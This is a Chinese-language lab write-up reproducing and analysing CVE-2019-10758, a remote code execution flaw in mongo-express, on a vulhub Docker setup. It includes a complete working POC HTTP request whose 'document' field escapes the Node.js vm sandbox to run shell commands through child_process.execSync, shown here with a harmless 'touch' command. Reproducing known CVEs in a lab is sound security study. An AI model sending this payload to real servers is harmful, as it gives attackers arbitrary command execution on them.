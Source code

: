 ### 1.环境搭建

项目地址：

[vulhub/mongo-express/CVE-2019-10758 at master · vulhub/vulhub (github.com)](https://github.com/vulhub/vulhub/tree/master/mongo-express/CVE-2019-10758)

拉取项目：

```bash
git clone https://github.com.cnpmjs.org/vulhub/vulhub.git
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211224172635.png)

安装docker-compose：

```bash
curl -L https://github.com/docker/compose/releases/download/1.27.4/docker-compose-`uname -s`-`uname -m` -o /usr/local/bin/docker-compose
chmod 775 docker-compose
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211224173524.png)

回到项目的目录

```bash
docker-compose up -d
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211224174132.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211224174854.png)

浏览器访问192.168.2.101:8081

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211224174928.png)

### 2.漏洞利用

POC如下：

```POST /checkValid HTTP/1.1
POST /checkValid HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch  /tmp/hummer")
```

抓包，修改http头重放即可执行命令

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211224175548.png)

查看结果：

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211224175635.png)

### 3.漏洞分析

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211224181359.png)

在toBSON函数中，参数string被放进vm沙箱中eval，Vm 模块提供了用于在 v8虚拟机上下文中编译和运行代码的 api。使用 VM 模块可以在沙箱环境中运行代码。沙箱代码使用不同的 v8上下文，这意味着它具有不同于代码其余部分的全局对象。vm在利用漏洞的时候逃逸出vm沙箱即可执行任意命令。

关于vm沙箱详细信息参考[Sandboxing NodeJS is hard, here is why (pwnisher.gitlab.io)](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211224181758.png)

toBSON函数的参数来源于req.body.document

所以我么构造的POC如下：

```bash
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/hummmer")
```



参考：

[CVE-2019-10758:mongo-expressRCE复现分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7056)




